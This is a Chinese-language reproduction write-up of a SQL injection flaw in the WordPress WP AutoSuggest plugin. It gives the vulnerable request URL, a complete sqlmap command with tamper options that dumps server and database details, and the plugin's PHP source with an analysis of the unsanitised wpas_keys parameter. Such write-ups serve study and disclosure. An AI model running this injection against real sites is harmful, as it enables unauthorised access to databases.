








# WordPress Plugin - AutoSuggest sql 注入

> 原文：[http://book.iwonder.run/0day/Wordpress/25.html](http://book.iwonder.run/0day/Wordpress/25.html)

## 一、漏洞简介

WP AutoSuggest 这款插件在访问者输入关键字时，插件会在提交搜索查询之前通过 AJAX 请求在网页中显示一些建议。访问者可以通过按 Enter 继续搜索，或者访问者可以使用键盘箭头直接访问建议的帖子。

## 二、漏洞影响

## 三、复现过程

首先我们得进入 exploit-db 网站上下载这个存在漏洞的版本的插件原始码和本地构建 WordPress 网站（本地构建 WordPress 这里就不说了）。下载源码，如下图所示



下载完成之后，把 wp-autosuggest 目录直接拖到 Wordpress 目录的\wp-content\plugins\下。



接着，登录后台，启用这款插件，如下图所示：



启用后，退出后台，如下图所示：



然后根据 exploit-db 网站上给出的漏洞详情，我们访问下面的 URL：

```
http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1 
```

访问后，网页内容如下图所示：



根据 exploit-db 网站上给出的漏洞详情，我们也知道了 wpas_keys 参数存在注入，于是我们可以使用 SQLMAP 注入神器，对网站进行注入。SQLMAP 命令如下：

```
sqlmap.py -u "http://www.0-sec.org/wp-content/plugins/wp-autosuggest/autosuggest.php?wpas_action=query&wpas_keys=1*" --technique BT --dbms MYSQL --risk 3 --level 5 --tamper space2comment 
```

一开始，笔者使用的时 php5.2.17+Apache 的环境，结果复现不了，头疼了半天，如下图：


后来笔者换了一个 php-5.4.45+Apache 的环境，就解决了。



通过 SQLMAP，成功获取到服务器的一些信息，如下图所示：


下图也成功跑出了当前数据库的名称。


### 漏洞分析

分析 WordPress 插件的话还是挺容易的。文件和代码也不是很多，用 Notepad++就够用啦。进入插件根目录下面就看到了 autosuggest_functions.php、autosuggest.php 这两个 php 文件。



下面是 autosuggest.php 文件所有代码：

```
<?php
include 'autosuggest_functions.php';

$wpas_action = '';
$wpas_keys = '';
if(isset($_GET['wpas_action'])) {
    $wpas_action = $_GET['wpas_action'];
}
if (isset($_GET['wpas_keys'])) {
    $wpas_keys = $_GET['wpas_keys'];
}

if ($wpas_action == 'query') {

    require_once ('../../../wp-config.php');

    header('Content-Type: text/xml');
    echo '<results>';

    global $wpdb;

    $wpas_keys = str_replace(' ','%',$wpas_keys);
    $pageposts = $wpdb->get_results("SELECT * FROM $wpdb->posts WHERE (post_title LIKE '%$wpas_keys%') AND post_status = 'publish' ORDER BY post_date DESC");
    foreach ($pageposts as $post) {
        setup_postdata($post);
        echo "<rs id=\"";
        the_permalink();
        echo "\" info=\"" . autosuggest_excerpt(apply_filters('the_title', get_the_content())) . "\">";
        the_title();
        echo "</rs>";
    }
    echo '</results>';
    die();
}

define('AUTOSUGGEST_DIR', get_option('siteurl') . '/' . PLUGINDIR.'/'.dirname(plugin_basename(__FILE__)));

function add_autosuggest_css() {
    wp_register_style('autosuggestCSS', AUTOSUGGEST_DIR . '/css/wp_autosuggest.css', null, '1', 'screen');
    wp_enqueue_style('autosuggestCSS');
}

function add_autosuggest_js() {
    wp_register_script('autosuggestJS', AUTOSUGGEST_DIR . '/js/wp.autosuggest.js', null, '1');
    wp_enqueue_script('autosuggestJS');
}

function add_autosuggest_footer_code() {
?>
<script type="text/javascript">
var autosuggest_options = {
    script: "<?php echo AUTOSUGGEST_DIR; ?>/autosuggest.php?wpas_action=query&",
    varname: "wpas_keys",
    shownoresults:true,
    noresults:"<?php echo __('No results found.'); ?>",
    timeout:15000,
    callback:autosuggestSelected,
    maxresults: <?php echo get_wpas_option('wpas_maxresults','10'); ?>
};
var as = new AutoSuggest('<?php echo get_wpas_option('wpas_input_id','s'); ?>', autosuggest_options);
function autosuggestSelected(entry) {
    document.location = entry['id'];
}
</script>
<?php
}

function add_autosuggest_settings() {
?>
<div class="wrap">

    <?php

        $smsg = "";
        if (isset($_POST['submitoptions'])) {
            if (isset($_POST['wpas_input_id'])) {
                update_option('wpas_input_id',$_POST['wpas_input_id']);
            }
            if (isset($_POST['wpas_maxresults'])) {
                update_option('wpas_maxresults',$_POST['wpas_maxresults']);
            }
            ?>

            <div id="message" class="updated fade"><p>WP AutoSuggest settings updated.</p></div>

    <?php } ?>

    <h2>WP AutoSuggest Settings</h2>

    <form action="" method="post">
    <table class="form-table">
        <tr valign="top">
        <th scope="row">Search Input ID</th>
        <td>
        <input type="text" value="<?php echo get_wpas_option('wpas_input_id','s'); ?>" id="wpas_input_id" name="wpas_input_id"/><br/>
        Default value is 's' which is used with the default WordPress theme. 
        </td>
        </tr>
        <tr valign="top">
        <th scope="row">Max Results</th>
        <td>
        <input type="text" value="<?php echo get_wpas_option('wpas_maxresults','10'); ?>" id="wpas_maxresults" name="wpas_maxresults"/><br/>
        Maximum number of suggested results (10 by default).
        </td>
        </tr>
    </table>
    <p class="submit"><input type="submit" name="submitoptions" value="Update Settings" /></p>
    </form>
    </div>
<?php
}

function add_autosuggest_menu_settings() {
    if (function_exists('add_options_page')) {
         add_options_page(
             "WP AutoSuggest"
             , "WP AutoSuggest"
             , 7
             , basename(__FILE__)
             , 'add_autosuggest_settings');
    }
}

add_action('wp_print_scripts', 'add_autosuggest_js');
add_action('wp_print_styles', 'add_autosuggest_css');
add_action('wp_footer', 'add_autosuggest_footer_code');
add_action('admin_menu', 'add_autosuggest_menu_settings');

?> 
```

相信大家没看几行就看出了问题的所在，变量 wpas_keys 是直接获取 GET 中的 wpas_keys。一点都没过滤，并且在下面代码中，变量 wpas_keys 也带入数据库中查询了（wpdb 是 wordpress 操作数据库方法），于是 SQL 注入就产生了。



## 四、参考链接

> [https://www.exploit-db.com/exploits/45977](https://www.exploit-db.com/exploits/45977)
> 
> [https://www.freebuf.com/vuls/191869.html](https://www.freebuf.com/vuls/191869.html)

